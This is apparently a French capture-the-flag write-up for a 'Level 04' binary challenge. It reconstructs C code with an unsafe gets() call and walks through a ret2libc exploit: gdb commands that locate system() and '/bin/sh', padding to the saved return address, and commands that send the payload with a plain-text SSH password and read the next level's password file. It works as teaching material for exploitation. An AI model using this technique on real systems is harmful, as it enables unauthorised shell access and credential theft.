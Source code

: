 # Level 04

## Analyse du binaire

Lorsqu'on exécute le binaire, le message "Give me some shellcode, k" est affiché sur l'entré standard puis un input est attendu sur l'entrée standard. Ensuite le message "child is exiting..." est affiché.

On peut réécrire un code source en C de cette manière :

```c
int main(int argc, const char **argv)
{
	uint a;			  // esp+0x1c
	char buffer[128]; // esp+0x20
	uint b;			  // esp+0xa0
	uint c;			  // esp+0xa4
	uint d;			  // esp+0xa8
	pid_t child;	  // esp+0xac

	child = fork();
	bzero(buffer, 128);
	d = 0;
	a = 0;

	if (!child)
	{
		prctl(PR_SET_PDEATHSIG, 1);
		ptrace(PTRACE_TRACEME, 0, 0, 0);
		puts("Give me some shellcode, k");
		gets(buffer);
		return (0);
	}
	while (d != 11)
	{

		wait(&a);
		b = a;
		if (b & 0x7f != 0)
		{
			c = a;
			int tmp = (c & 0x7f + 1) >> 1;
			char last_byte = ((char *)&a)[3];
			last_byte >>= 1;
			if (last_byte > 0)
			{
				puts("child is exiting...");
				return 0;
			}
			d = ptrace(PTRACE_PEEKUSER, child, 2, 0);
		}
	}
	puts("no exec() for you");
	kill(child, SIGKILL);
}
```

La faille ici vient de l'utilisation de la fonction _gets_.

Le message sur la sortie standard nous pousse à insérer du shellcode et à l'exécuter. Cependant cela ne donne rien et on obtient le message _no exec() for you_.

## Ret2libc

On peut essayer d'utiliser un **ret2libc** et faire un appel à la fonction _system_.

On va donc écraser l'**eip sauvegardé** pour le remplacer par la fonction _system_ ayant pour argument "/bin/sh" et donc lancer un shell.

Il nous faut dans un premier temps, l'adresse de la fonction _system_.

On peut l'obtenir de cette manière avec gdb :

```gdb
b main
r
p system
```

Il faut ensuite une adresse qui pointe vers la chaîne de caractères "/bin/sh". On pourrait donc par exemple écrire dans une variable d'environnement "/bin/sh" et prendre l'adresse de cette variable.

On peut utiliser le programme suivant pour obtenir l'adresse exacte de la variable d'environement depuis la vm :

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
	if (argc != 2)
	{
		printf("Usage: %s <ENV_VAR>\n", argv[0]);
		return 1;
	}
	char* ptr = getenv(argv[1]);
	printf("The address of environment variable \"%s\" is %p\n", argv[1], ptr);
	return 0;
}
```

Plus simple, on peut rechercher la chaîne de caractères "/bin/sh" qui est présente dans la libc. Pour ce faire avec gdb :

```gdb
b main
r
find __libc_start_main,+99999999,"/bin/sh"
```

ou avec gdb peda :

```
b main
r
find "/bin/sh"
```

Il nous reste plus qu'à trouver le padding entre notre buffer et l'**eip sauvegardé**.

Pour le buffer on peut l'obtenir de cette manière :

```gdb
b *0x0x080486cd
r
p $esp+0x20
```

et pour l'**eip sauvegardé** :

```gdb
b main
r
i f
```

La commande `i f` (info frame) affiche sur la dernière ligne, la valeur de l'**eip sauvegardé**.

On peut donc générer notre shellcode (voir Ressources/generator.cpp).

## Commandes

Depuis l'hôte :

```bash
make && ./generator && sshpass -p 'kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf' scp -P 4242 shellcode level04@localhost:/tmp/
```

Sur la vm :

```bash
cat /tmp/shellcode - | ./level04
cat /home/users/level05/.pass
```

## Sources

- https://beta.hackndo.com/retour-a-la-libc/
